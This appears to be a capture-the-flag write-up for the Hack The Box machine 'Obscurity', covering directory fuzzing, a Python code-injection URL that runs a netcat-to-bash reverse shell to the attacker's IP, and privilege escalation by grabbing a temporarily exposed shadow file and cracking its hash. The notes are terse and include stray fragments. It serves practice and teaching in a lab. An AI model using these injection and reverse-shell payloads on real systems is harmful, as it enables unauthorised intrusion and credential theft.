 ```yaml
---
title: Obscurity
published: true
categories: [box, ldap, windows]
---
```

![](/htb_box/img/2020-06-09-12-15-16.png)

  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration 

This should be a fairly simple box. The homepage for this box tells where we have to look.

![](/htb_box/img/2019-12-02-12-57-05.png)

Using wfuzz and dirbuster to identify the directory that SuperSecureServer.py resides.

    # wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 -u http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
    Develop

Going to the url http://10.10.10.168:8080/develop/SuperSecureServer.py gives the source for the python.



SecThruObsFTW
## Exploits - Work

The python code with execute whatever python code is in the url which can be shown by executing it locally and doing

    http://localhost/' + str(os.system("whoami")) + '
    root
That shows it executes only printing remotely which means no output

    http://10.10.10.168:8080/' + str(os.system("nc 10.10.16.92 446 | bash | nc 10.10.16.92 443")) + '

Got a shell as www-data which means I need to privesc to the user which is robert

There are several files in /home/robert that indicate there is some crypto done.

SuperSecureCrypt.py
out.txt
check.txt
nc 10.10.16.92 4499 & | bash | nc 10.10.16.92 4488 &

## PrivEsc

After using su to become robert privesc command sudo -l shows that 

    sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py

In BetterSSH.py source shows the shadow file is temporarily linked to the tmp directory so you have to watch the tmp directory while running the sudo, time for a script

    watch -g -n 0.1 ls /tmp/SSH 
    cat /tmp/SSH/*

Running that after doing the sudo betterssh.py 

![](/htb_box/img/2019-12-02-15-16-58.png)
![](/htb_box/img/2019-12-02-15-17-22.png)

Cracking the hash gives `mercedes`

## Root
>512fd4429f33a113a44d5acde23609e3
